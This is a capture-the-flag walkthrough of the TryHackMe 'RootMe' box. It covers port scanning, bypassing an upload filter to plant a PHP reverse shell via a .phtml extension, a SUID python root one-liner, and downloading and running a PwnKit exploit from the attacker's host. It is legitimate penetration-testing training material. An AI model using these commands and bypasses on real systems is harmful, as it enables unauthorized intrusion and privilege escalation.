 # THM - RootMe

#### Ip: 10.10.0.217
#### Name: RootMe
#### Rating: Easy

----------------------------------------------------------------------

![rootme.png](../assets/rootme_assets/rootme.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -p-  --min-rate 10000 10.10.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:17 CDT
Warning: 10.10.0.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -sC -sV -T4 10.10.0.217 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:18 CDT
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds
```

Navigating to the site we find this webpage:

![page.png](../assets/rootme_assets/page.png)

I'm not seeing any links nor am I finding anything of interest in the page source, so lets kick off some directory fuzzing:

![ferox.png](../assets/rootme_assets/ferox.png)

Cool, the /uploads and /panel directories seem interesting. Navigating to http://10.10.0.217/panel/ we see a file upload feature. Lets try using a PHP reverse shell from PentestMonkey.

![panel.png](../assets/rootme_assets/panel.png)

### Exploitation

We'll need to go ahead and update the IP adress field, as well as add which port we'll be listening on:

![php.png](../assets/rootme_assets/php.png)

After setting up a NetCat listener on port 443 we can try to upload the script:

![nophp.png](../assets/rootme_assets/nophp.png)

Dang, looks like the site is filtering out the PHP extension. No problem, there are a few potential ways around this.

First lets copy the magic bytes (or file signatures) for a .png file and paste them at the beginning of the PHP shell:

![bytes.png](../assets/rootme_assets/bytes.png)

From here we can save the script and it will hopefully be interpreted as an image. Lets save the script with the magic bytes as not_a_php_shell.png

We can then succesfully upload our disguised shell:

![success.png](../assets/rootme_assets/success.png)

Recalling that we also found an /uploads directory, we can navigate there and trigger our exploit:

![uploads.png](../assets/rootme_assets/uploads.png)

Rats, that failed as well. 

![fail2.png](../assets/rootme_assets/fail2.png)

Another approach we can take is modifying the .php file extension. Perhaps the app is simply blacklisting vanilla PHP, but maybe not something like .phtml. Lets save our script now as shell.phtml and try to upload again.

![success2.png](../assets/rootme_assets/success2.png)

And we can execute the script by clicking on the file in the /uploads directory to get a shell back on our listener:

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.0.217] 59718
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:41:22 up 29 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
rootme
$ python3 -c 'import pty;pty.spawn("/bin/bash")'


www-data@rootme:/$
```

Nice!, Now we should be able to grab the user.txt flag:

![user_flag.png](../assets/rootme_assets/user_flag.png)

### Privilege Escalation #1

Lets move into the `/tmp` directory and copy over LinPeas to help find the privilege escalation vector.

![transfer.png](../assets/rootme_assets/transfer.png)

Cool, looks like Python has the SUID bit set. This should be a walk in the park from here on out.

![suid.png](../assets/rootme_assets/suid.png)

Heading over to https://gtfobins.github.io/ and searching for Python, we find the exact command we'll need to escalate privileges:

![gtfobins.png](../assets/rootme_assets/gtfobins.png)

Changing directories to `/usr/bin` all we need to do is run:


```text
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we'll drop into a root shell, from which we can grab the root.txt flag:

![root_flag.png](../assets/rootme_assets/root_flag.png)

### Privilege Escalation #2

Another vector identified by LinPeas was PwnKit.

![pwnkit.png](../assets/rootme_assets/pwnkit.png)

This is an extremely common finding on older, upatched boxes, and can be a very quick win. Exploiting it takes just a second or two:

```text
www-data@rootme:/tmp$ wget http://10.6.61.45/PwnKit
--2023-07-24 15:59:10--  http://10.6.61.45/PwnKit
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.1s    

2023-07-24 15:59:10 (133 KB/s) - 'PwnKit' saved [18040/18040]

www-data@rootme:/tmp$ chmod +x PwnKit
www-data@rootme:/tmp$ ./PwnKit
root@rootme:/tmp# whoami
root
root@rootme:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
A detailed writeup of the vulnerability can be found here:

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

Thanks for following along!

-Ryan

---------------------------------------------------------------------



